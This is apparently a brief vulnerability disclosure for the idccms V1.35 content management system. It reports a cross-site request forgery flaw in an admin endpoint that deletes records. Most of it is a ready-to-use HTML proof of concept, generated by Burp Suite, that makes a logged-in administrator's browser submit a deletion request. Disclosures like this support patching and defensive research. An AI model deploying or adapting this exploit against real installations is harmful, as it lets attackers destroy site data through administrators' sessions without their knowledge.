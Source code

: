 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/type_deal.php?mudi=del&dataType=moneyNote&dataTypeCN=%E4%B8%8D%E6%89%A3%E6%AC%BE%E8%AF%B4%E6%98%8E&theme=cs&dataID=21

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/type_deal.php?mudi=del&dataType=moneyNote&dataTypeCN=%E4%B8%8D%E6%89%A3%E6%AC%BE%E8%AF%B4%E6%98%8E&theme=cs&dataID=21" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
